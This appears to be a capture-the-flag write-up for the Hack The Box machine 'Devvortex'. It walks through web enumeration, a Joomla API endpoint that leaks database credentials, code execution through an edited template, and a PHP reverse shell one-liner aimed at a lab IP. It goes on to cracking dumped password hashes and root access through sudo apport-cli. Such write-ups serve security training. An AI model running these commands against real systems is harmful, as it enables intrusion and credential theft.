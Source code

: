 ```yaml
---
slug: /write-up/htb/machines/easy/devvortex
pagination_next: null
pagination_prev: null
---
```


## Enumeration

First of all, we access via browser to the IP and got redirected to http://devvortex.htb/, let's add it to /etc/hosts.

Navigating a bit, we can see that it might be vulnerable to file inclusion, since requesting an non-existing page: http://devvortex.htb/aa.html showed a nginx server error

```bash
└─$ whatweb http://devvortex.htb                 
http://devvortex.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@DevVortex.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.242], JQuery[3.4.1], Script[text/javascript], Title[DevVortex], X-UA-Compatible[IE=edge], nginx[1.18.0]
```


Let's try to extract all the files we can find in the server with `fuff`:

```bash
ffuf -w /opt/github/SecLists/Discovery/Web-Content/common.txt:FUFF -u http://devvortex.htb/FUFF.html
```

So far, nothing weird appears to be accessible:

```
about                   [Status: 200, Size: 7388, Words: 2258, Lines: 232, Duration: 40ms]
contact                 [Status: 200, Size: 8884, Words: 3156, Lines: 290, Duration: 207ms]
do                      [Status: 200, Size: 7603, Words: 2436, Lines: 255, Duration: 38ms]
index                   [Status: 200, Size: 18048, Words: 6791, Lines: 584, Duration: 45ms]
portfolio               [Status: 200, Size: 6845, Words: 2083, Lines: 230, Duration: 42ms]
```

The images are served from http://devvortex.htb/images/hero-bg.jpg, if we try to access /images we get 403, let's try to fuzz the directories by checking if they return 403:

```
images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 43ms]
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 42ms]
js                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 52ms]
                        [Status: 200, Size: 18048, Words: 6791, Lines: 584, Duration: 47ms]
```

Nothing so far, let's check what other ports are open with nmap:

```
└─$ nmap devvortex.htb   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-20 16:42 CET
Nmap scan report for devvortex.htb (10.10.11.242)
Host is up (0.038s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Let's check versions:

http

```
└─$ nmap devvortex.htb -p80 -sC -sV -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-20 16:43 CET
Nmap scan report for devvortex.htb (10.10.11.242)
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: DevVortex
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.51 seconds
```

ssh

```
└─$ nmap devvortex.htb -p22 -sC -sV -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-20 16:43 CET
Nmap scan report for devvortex.htb (10.10.11.242)
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.53 seconds
```

Nothing seems weird, let's try to scan for ALL ports opened, nothing else found.

Let's enumerate subdomains by using the Host header:

```bash
ffuf -w /opt/github/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.devvortex.htb" -u http://devvortex.htb -fl 8
```

Got this subdomain:

```
dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 88ms]
```

which looks like it's serving php content: `http://dev.devvortex.htb/index.php`

A simple scan with ffuf reveals interesting stuff:

```
.git/logs/              [Status: 403, Size: 3653, Words: 792, Lines: 70, Duration: 90ms]
configuration           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 39ms]
index                   [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 80ms]
```

With .git/log we can reconstruct the source code but it's returning a 403.
configuration.php looks like a blank page, but it's a PHP page, so it would be interesting to note it for future usage.

Let's enumerate directories:

```
home                    [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 465ms]
```

- http://dev.devvortex.htb/error.php  --> File not found. 
- http://dev.devvortex.htb/any.php  --> File not found.

Looks a possible LFI attack vector, checking /robots.txt reveals this is a Joomla CMS page.

Following the paths in the robots.txt, we can see this URL: http://dev.devvortex.htb/administrator/index.php

Now that we know it's a Joomla CMS page, let's make a Google search, and we found the following links:

- https://hackertarget.com/attacking-enumerating-joomla/
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla
- https://vulncheck.com/blog/joomla-for-rce


## Foothold

```bash
curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
```

According to the articles, this URLS leaks the user/password for the mysql database used by joomla. However, the same user/password has been re-used for the Joomla CMS admin user

Once we have admin access to joomla instance, we can modify a template php files to include RCE, e.g.:

http://dev.devvortex.htb/templates/cassiopeia/offline.php?cmd=id

Now let's send a reverse shell:

```bash
php -r '$sock=fsockopen("10.10.14.218",9001);popen("/bin/sh <&3 >&3 2>&3", "r");'
```
with URL-encode:

http://dev.devvortex.htb/templates/cassiopeia/offline.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.14.218%22%2C9001%29%3Bpopen%28%22%2Fbin%2Fsh%20%3C%263%20%3E%263%202%3E%263%22%2C%20%22r%22%29%3B%27

We got a reverse-shell, but to `www-data` user, in order to get the flag, we need to get access to `logan` user.

## Lateral movement

According to the article, the leaked credentials are used to connect the MySQL database, so, let's connect to the DB re-using the credentials.

We go to the users table and see the hashed passwords:

```bash
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
```

We can try to crack the hash with hashcat:

```bash
hashcat exfil/hash.txt -m 3200 -a 0 /usr/share/wordlists/rockyou.txt
```

and it worked, it reveal the password for the user logan, now we can connect with SSH and read the user flag.

## Privilege escalation

```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Just do a quick search about the sudoable app and found a poc to get root access: https://github.com/diego-tella/CVE-2023-1326-PoC

I tired and it just worked giving root access and we got root flag.
